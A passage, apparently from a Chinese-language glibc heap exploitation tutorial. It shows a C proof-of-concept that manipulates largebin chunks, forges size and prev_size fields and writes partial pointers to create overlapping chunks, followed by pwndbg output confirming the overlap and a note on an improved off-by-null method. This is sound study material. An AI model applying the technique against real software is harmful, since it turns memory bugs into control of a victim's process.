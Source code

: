 ```c
    void *victim2 = malloc(0x4f0);
    malloc(0x10);  // padding 
    void *a = malloc(0x4f0);
    malloc(0x10); // padding 
    void *b = malloc(0x510);
    malloc(0x10); // padding 

    free(a);
    free(b);
    free(prev);
    malloc(0x1000);  // make a  b prev enter into largebin  
    // b-> prev-> a
    
    void *prev2 = malloc(0x508);
    ((long *)prev)[1] = 0x501;  // p->size=0x501
    *(long *)(prev + 0x500) = 0x500;  // victim1->prevsize=0x500
    *(char *)(prev + 0x508) = '\x00';    // victim1->size =0x500

    void *b2 = malloc(0x510); 
    ((char*)b2)[0] = '\x60';
    ((char*)b2)[1] = '\x12';  // b->fd = p
   

    void *a2 = malloc(0x4f0);
    free(a2);
    free(victim2);    // victim2->a2
    void *a3 = malloc(0x4f0); 
    ((char*)a3)[8] = '\x60';
    ((char*)a3)[9] = '\x12'; // a->bk = p
    victim2 = malloc(0x4f0);


    free(victim1); // merge victim1 with  prev
    void *merged = malloc(0x100);
    memset(merged, 'A', 0x80);
    memset(prev2, 'C', 0x80);
    printf("merged address: %p\n", merged);
    printf("prev address: %p\n", prev2);
}

pwndbg> c
Continuing.
merged address: 0x555d8a887270
prev address: 0x555d8a887260
[Inferior 1 (process 6713) exited normally]

```

### 改进版直接法（无特殊限制）
通过后向合并，把构造好的fd和bk指针保留下来。这样从unsortedbin中取出来时，就不会破坏这个fd。并且fd存在于chunk内部而不是紧接着chunk metedata，这样就可以部分写入1个0字节到fd。不像之前至少写入两个字节到fd

